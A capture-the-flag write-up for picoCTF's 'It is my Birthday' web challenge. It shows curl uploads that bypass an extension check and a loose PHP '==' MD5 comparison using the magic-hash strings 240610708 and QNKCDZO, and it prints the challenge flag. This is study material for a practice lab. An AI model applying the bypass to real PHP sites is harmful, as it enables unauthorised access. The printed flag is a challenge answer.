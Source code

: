 # It is my Birthday
Category: Web, 100 points

## Description

> I sent out 2 invitations to all of my friends for my birthday! 
> 
> I'll know if they get stolen because the two invites look similar, and they even have the same md5 hash, but they are slightly different! 
> 
> You wouldn't believe how long it took me to find a collision. 
> 
> Anyway, see if you're invited by submitting 2 PDFs to my website. 

## Solution

The attached website has a form where we can upload two files:

```html
<div class="jumbotron">
  <p class="lead"></p>
  <div class="row">
    <div class="col-xs-12 col-sm-12 col-md-12">
      <h3>See if you are invited to my party!</h3>
    </div>
  </div>
  <br/>
  <div class="upload-form">
    <form role="form" action="/index.php" method="post" enctype="multipart/form-data">
    <div class="row">
      <div class="form-group">
        <input type="file" name="file1" id="file1" class="form-control input-lg">
        <input type="file" name="file2" id="file2" class="form-control input-lg">
      </div>
    </div>
    <div class="row">
      <div class="col-xs-12 col-sm-12 col-md-12">
        <input type="submit" class="btn btn-lg btn-success btn-block" name="submit" value="Upload">
      </div>
    </div>
    </form>
  </div>
</div>
```

Let's start exploring the logic by uploading the same text file twice:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ echo test > test.txt

┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ curl -F 'file1=@test.txt'  -F 'file2=@test.txt' -F 'submit=Upload' http://mercury.picoctf.net:50970/index.php
Not a PDF!
```

The website identifies that we've uploaded a text file. How does it determine what kind of file we're uploading? The simplest way would be using the file extension.

```console
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ mv test.txt test.pdf

┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ curl -F 'file1=@test.pdf'  -F 'file2=@test.pdf' -F 'submit=Upload' http://mercury.picoctf.net:50970/index.php
Files are not different!
```

We passed the "PDF" check, now the website complains that the files are equal, which is true. Note that according to the form action, this is a PHP site. PHP has a known "gotcha" (nicknamed "[Magic Hashes](https://github.com/spaze/hashes)") where if two strings of the form `0e[\d]+` are compared using `==`, the are considered equal (as they are both considered equal to `0` using scientific notation). Therefore, `'0e1' == '00e2' == '0'`. Or, as a practical exploit:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ php -r "echo md5('240610708');"
0e462097431906509019562988736854                                                                                                                                                                               
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ php -r "echo md5('QNKCDZO');"
0e830400451993494058024219903391                                                                                                                                                                               
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ php -r "var_dump(md5('240610708') == md5('QNKCDZO'));"
bool(true)
```

So let's try that out before actually trying to generate an MD5 collision:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ echo -n "240610708" > f1.pdf

┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ echo -n "QNKCDZO" > f2.pdf

┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ md5sum f1.pdf f2.pdf
0e462097431906509019562988736854  f1.pdf
0e830400451993494058024219903391  f2.pdf

┌──(user@kali)-[/media/sf_CTFs/pico/It_is_my_Birthday]
└─$ curl -F 'file1=@f1.pdf'  -F 'file2=@f2.pdf' -F 'submit=Upload' http://mercury.picoctf.net:50970/index.php -s | egrep -o "picoCTF{[^}]+}"
picoCTF{c0ngr4ts_u_r_1nv1t3d_73b0c8ad}
```

The flag: `picoCTF{c0ngr4ts_u_r_1nv1t3d_73b0c8ad}`